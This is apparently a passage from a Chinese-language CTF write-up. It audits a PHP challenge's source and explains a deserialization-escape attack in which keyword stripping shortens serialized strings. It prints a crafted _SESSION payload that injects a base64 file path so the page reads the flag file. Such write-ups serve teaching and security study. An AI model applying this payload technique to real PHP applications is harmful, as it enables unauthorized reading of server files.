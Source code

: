 ```php
if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
} 

```

仔细审计,发现可能存在反序列化逃逸.因为filter的代码为:

```php
function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}
```

我们可以恶意提交含有`'php','flag','php5','php4','fl1g'`的数据从而让其被替换掉,再恶意构造反序列后的数据从而逃逸.同时`extract($_POST);`的变量赋给,方便我们构造恶意的SESSION数据。

例如：`_SESSION["fflagflag"]=";s:3:"img";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}`

在后头处理时，`$serialize_info = filter(serialize($_SESSION));`，会将其处理成：

```php
a:4:{s:4:"user";s:5:"guest";s:8:"function";s:10:"show_image";s:9:"f";s:51:"";s:3:"img";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:8:"img_name";}
```

而php在unserialize时，把`f";s:51:"`档成一个参数，从而把原本数据里的`s:3:"img";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}`逃逸了出来。而剩下的`";s:3:"img";s:8:"img_name";}`会被忽视掉。

ps：这里有个小坑之前踩了，高版本php不能通过`";"`来合并变量，但是可以通过`";}`来上面一样逃逸数据。

![image-20210109171645147](image-20210109171645147.png)

## 不是文件上传

进入题目满脸蒙蔽....先是怀疑是文件上传结果发现上传路径是个假路径....
